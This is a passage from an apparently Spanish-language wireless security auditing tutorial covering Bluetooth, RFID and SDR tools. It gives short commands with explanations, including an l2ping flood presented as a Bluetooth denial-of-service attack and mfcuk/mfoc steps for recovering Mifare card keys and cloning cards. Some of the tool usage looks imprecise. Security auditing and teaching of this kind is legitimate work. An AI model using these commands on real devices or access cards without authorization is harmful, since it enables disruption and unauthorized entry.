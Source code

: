 ```bash
sudo bluelog -i hci0
```

🔹 **Explicación:** Monitorea y registra dispositivos Bluetooth activos.

### **2.2.3 L2ping - Ataque de Denegación de Servicio Bluetooth**

Este ataque bombardea un dispositivo Bluetooth con paquetes de datos.

```bash
l2ping -i hci0 -s 600 -f XX:XX:XX:XX:XX:XX
```

🔹 **Explicación:** Envía paquetes grandes para intentar bloquear el dispositivo.

------

## **2.3 Auditoría y Ataques a Sistemas RFID**

Los sistemas RFID (Identificación por Radiofrecuencia) son utilizados en tarjetas de acceso y sistemas de autenticación.

### **2.3.1 RfCat - Manipulación de Señales RFID**

```bash
rfcat -r
```

🔹 **Explicación:** Permite leer, analizar y modificar señales RFID.

### **2.3.2 MFCUK y MFOC - Ataques a Tarjetas RFID Mifare**

Las tarjetas Mifare son ampliamente utilizadas en sistemas de transporte y acceso.

1. Para obtener la clave de una tarjeta Mifare vulnerable:

   ```bash
   mfcuk -C -R 0:A -s 250 -S 250 -O dump.mfd
   ```

2. Para clonar una tarjeta después de obtener la clave:

   ```bash
   mfoc -O dump.mfd
   ```

## **2.4 Análisis de Radiofrecuencia con SDR (Software Defined Radio)**

SDR permite capturar y analizar señales de radio como comunicación de taxis, aeronáutica o TV digital.

### **2.4.1 Gqrx - Escaneo de Frecuencias de Radio**

```bash
gqrx
```
